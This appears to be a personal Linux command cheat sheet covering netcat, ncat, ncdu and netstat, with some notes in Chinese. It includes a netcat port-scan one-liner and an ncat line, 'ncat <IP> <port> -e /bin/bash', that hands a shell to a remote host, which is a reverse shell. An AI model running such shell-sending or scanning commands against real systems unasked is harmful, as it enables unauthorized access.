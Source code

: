 ## nc, netcat(1) - arbitrary TCP and UDP connections and listens

- Port Scanning

```bash
netcat -z -n -v <IP> <Port Range> 2>&1 | grep succeeded
nc -z -n -v 192.168.0.1 1-1000 2>&1 | grep succeeded
```

## ncat(1) - Concatenate and redirect sockets

>> <https://ithelp.ithome.com.tw/articles/10278494>

```bash
apt install ncat -y
```

```text
-l 啟動監聽模式
-v 輸出詳細資訊
-n 不要解析 DNS
-p 指定 port
-e 設定連線後執行的程式
```

```bash
ncat -lvn -p <port>
ncat <IP> <port> -e /bin/bash
ncat -l -p 1234 -vn
ncat -l -p 1234
ncat -l -p 1234 -u
```

## ncdu(1) - NCurses Disk Usage

```bash
apt install ncdu -y
```

## netstat(8) - Print network connections, routing tables, interface statistics, masquerade connections, and multicast memberships

- netstat -ntulp

```bash
t: tcp
u: udp
n: don't resolve names
l: display listening server sockets
p: display PID/Program name for sockets
```

## nl(1) - number lines of files
